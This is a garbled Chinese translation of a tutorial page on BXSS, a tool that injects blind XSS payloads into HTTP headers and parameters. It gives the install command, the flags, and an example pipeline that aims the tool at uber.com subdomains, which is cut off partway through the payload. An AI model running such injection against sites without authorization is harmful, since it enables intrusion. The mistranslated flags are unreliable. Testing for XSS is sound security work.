


# BXSS:一种盲 XSS 注入工具

> 原文：<https://kalilinuxtutorials.com/bxss/>

BXSS 是一种盲 XSS 注射器工具。

**特性**

*   将盲 XSS 有效载荷注入自定义报头
*   将盲 XSS 有效载荷注入参数
*   同时使用不同的请求方法(PUT、POST、GET、OPTIONS)
*   工具链接
*   非常快
*   易于设置

**安装**

**`**`$ go get -u github.com/ethicalhackingplayground/bxss`**`**

**自变量**

**—编码为@ z0id sec—**
**—Append mode**
将有效载荷追加到参数
**—concurrency int**
设置并发(默认 30)
**—头字符串**
设置自定义头(默认“用户代理”)
**—参数**
测试参数为盲 xss
**—有效载荷字符串**
盲 XSS

*   **参数中的盲 XSS**

$ sub finder uber.com | gau | grep " & " | bxss-append mode-payload ' " >